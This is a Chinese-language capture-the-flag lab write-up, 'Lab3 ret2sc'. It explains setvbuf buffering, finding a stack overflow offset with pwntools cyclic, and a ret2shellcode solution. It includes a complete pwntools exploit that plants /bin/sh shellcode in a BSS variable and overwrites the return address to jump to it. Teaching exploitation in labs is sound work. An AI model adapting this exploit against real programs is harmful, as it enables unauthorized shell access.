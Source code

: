 # Lab3 ret2sc

## 先備知識

### setvbuf()

`int setvbuf(FILE *stream, char *buffer, int mode, size_t size)`

定義了stream的buffer怎麼被緩衝

- buffer 分配的緩衝區，如果是NULL會自動分配
- mode 0: FUll  buffering、1: Line buffering、2: No buffering
- size 單個緩衝區大小

這裡使用setvbuf(stdout, 0, 2, 0)設定為無緩衝

## Solve

### 分析

有兩個input，其中`name`為全域變數存放在BSS區段，而`buf`則存放在stack中

### how to find offest

from pwn import *

cyclic(100)

cyclic_find("<return overflow string>")

### 解題策略

將shellcode塞在name中，並且利用BOF將return的值蓋掉，跳轉到name的地方。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./ret2sc')
name = 0x804a060 # address of name (BSS) where we are going to placed return 
r.recvuntil(":")
r.sendline(asm(shellcraft.sh())) # /bin/shell shellcode which is 24 bytes
r.recvuntil(":")
payload = "a"*32 # buffer size 
payload += p32(name) # overflow return 
r.sendline(payload)

r.interactive()
```
